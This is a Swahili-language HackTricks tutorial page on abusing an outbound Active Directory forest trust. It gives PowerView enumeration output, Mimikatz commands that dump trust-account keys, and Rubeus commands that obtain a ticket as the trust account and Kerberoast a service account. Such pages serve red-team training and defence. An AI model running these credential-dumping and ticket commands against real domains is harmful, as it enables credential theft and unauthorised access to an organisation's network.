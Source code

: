 # Domainu ya Msitu wa Nje - Moja-Kwa-Moja (Kuelekea Nje)

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

Katika hali hii **domainu yako** inatoa **imani** fulani kwa msingi kutoka kwa **domainu tofauti**.

## Uchambuzi

### Imani ya Kuelekea Nje
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Shambulizi la Akaunti ya Uaminifu

Kuna udhaifu wa usalama unapoanzishwa uhusiano wa uaminifu kati ya udomeni mbili, zilizotambulishwa hapa kama udomeni **A** na udomeni **B**, ambapo udomeni **B** unapanua uaminifu wake kwa udomeni **A**. Katika usanidi huu, akaunti maalum inaundwa katika udomeni **A** kwa ajili ya udomeni **B**, ambayo inacheza jukumu muhimu katika mchakato wa uwakiki kati ya udomeni hizo mbili. Akaunti hii, inayohusishwa na udomeni **B**, hutumiwa kwa kusimbua tiketi za kupata huduma kote katika udomeni hizo.

Jambo muhimu kuelewa hapa ni kwamba nenosiri na hash ya akaunti hii maalum inaweza kuchimbuliwa kutoka kwa Msimamizi wa Udomeni katika udomeni **A** kwa kutumia zana ya mstari wa amri. Amri ya kutekeleza hatua hii ni:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
Uchimbaji huu unawezekana kwa sababu akaunti, iliyojulikana na **$** baada ya jina lake, iko hai na inamilikiwa na kikundi cha "Domain Users" cha kikoa **A**, hivyo kurithi ruhusa zinazohusiana na kikundi hiki. Hii inaruhusu watu kuthibitisha dhidi ya kikoa **A** kwa kutumia sifa za akaunti hii.

**Onyo:** Ni rahisi kutumia hali hii kupata msingi katika kikoa **A** kama mtumiaji, ingawa na ruhusa ndogo. Hata hivyo, ufikiaji huu unatosha kufanya uchambuzi kwenye kikoa **A**.

Katika hali ambapo `ext.local` ni kikoa kinachotegemewa na `root.local` ni kikoa kinachotegemewa, akaunti ya mtumiaji iitwayo `EXT$` itaundwa ndani ya `root.local`. Kupitia zana maalum, inawezekana kudondosha funguo za uaminifu za Kerberos, kufunua sifa za `EXT$` katika `root.local`. Amri ya kufanikisha hili ni:
```bash
lsadump::trust /patch
```
Kufuatia hili, mtu anaweza kutumia funguo ya RC4 iliyochimbuliwa kujithibitisha kama `root.local\EXT$` ndani ya `root.local` kwa kutumia amri ya zana nyingine:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
Hatua hii ya uthibitishaji inafungua uwezekano wa kuhesabu na hata kutumia huduma ndani ya `root.local`, kama vile kutekeleza shambulio la Kerberoast kuchimba vibali vya akaunti ya huduma kwa kutumia:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### Kukusanya nenosiri la imani wazi

Katika mchakato uliopita, ilikuwa hutumiwa hash ya imani badala ya **nenosiri wazi** (ambalo pia lilikuwa **limechimbuliwa na mimikatz**).

Nenosiri wazi linaweza kupatikana kwa kubadilisha pato la \[ CLEAR ] kutoka mimikatz kutoka hexadecimal na kuondoa herufi za sifuri ' \x00 ':

![](<../../.gitbook/assets/image (935).png>)

Maranyingi wakati wa kuunda uhusiano wa imani, nenosiri lazima litajwe na mtumiaji kwa ajili ya imani. Katika onyesho hili, ufunguo ni nenosiri la imani la awali na kwa hivyo linaweza kusomwa na binadamu. Kwa kuwa ufunguo unabadilika (kila baada ya siku 30), nenosiri wazi haitasomwa na binadamu lakini kwa kiufundi bado linaweza kutumika.

Nenosiri wazi linaweza kutumika kufanya uwakiki wa kawaida kama akaunti ya imani, njia mbadala ya kuomba TGT kwa kutumia ufunguo wa siri wa Kerberos wa akaunti ya imani. Hapa, kuuliza root.local kutoka ext.local kwa wanachama wa Domain Admins:

![](<../../.gitbook/assets/image (789).png>)

## Marejeo

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

